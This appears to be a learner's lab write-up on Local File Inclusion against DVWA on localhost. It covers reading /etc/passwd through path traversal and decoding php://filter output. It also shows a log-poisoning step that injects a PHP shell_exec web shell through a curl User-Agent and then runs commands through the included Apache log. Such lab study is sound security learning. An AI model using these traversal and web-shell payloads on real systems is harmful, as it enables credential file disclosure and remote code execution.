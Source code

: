 # 🧠 Day 2 — Local File Inclusion (LFI) Vulnerability Walkthrough

## 🔍 What is LFI?

Local File Inclusion (LFI) is a web vulnerability that allows an attacker to include files on a server through the web browser. This can lead to information disclosure, code execution, or full server compromise depending on how it's leveraged.

---

## 🔎 Basic LFI Test: Reading `/etc/passwd`

The first parameter tested was:

http://127.0.0.1/DVWA/vulnerabilites/?page=../../../../../../etc/passwd
this gave us the access to the /etc/passwd file of the server.

The things we can note about services and users from this are: 
- The Users with **login Permissions** have: `/usr/bin/zsh`
- The services with **no login Permission** have: `/usr/sbin/nologin`
- And some are even more restricted and have: `/usr/bin/false`, which literally exit when called.
![LFI passwd Output](/from-scratch-to-shell/Day-2-notes/Screenshots/passwd-output.webp)

## `php://filter` trick (base64 encoding)

On higher security like (high/medium), these files of the server are not just directly accessible as they are in low security level, and to get that we access them using `php://filter`

- we accessed the same `/etc/passwd` but with the phpFilter, This gave us the base64 encoded version of the output.
- to covert it back to human readable form, we ran this: 
```bash
echo "encoded string" | base64 -d
```
here '*-d*' is for decoding the string using base64.

## 🧾 Log File Injection (Log Poisoning)
This is a bit advanced trick. This lets us inject malicious code to the server's log file.
The injected payload was:
```bash
curl -A "<?php echo shell_exec(\$_GET['cmd']); ?>" http://127.0.0.1/DVWA/vulnerabilities/fi/?page=include.php
```
- here, to actually run this, we had to give the access of the `/var/log/apache2/access.log` to others, to do that we ran this:
```bash
sudo chmod o+r /var/log/apache2/access.log
```
- after doing this we simply accessed a file on which we want to run the command, to execute, we accessed:
http://127.0.0.1/DVWA/vulnerabilites/fi/?page=../../../../var/log/apache2/access.log&cmd=ls

![Log inclusion output](/from-scratch-to-shell/Day-2-notes/Screenshots/Log-inclusion-output.webp) 
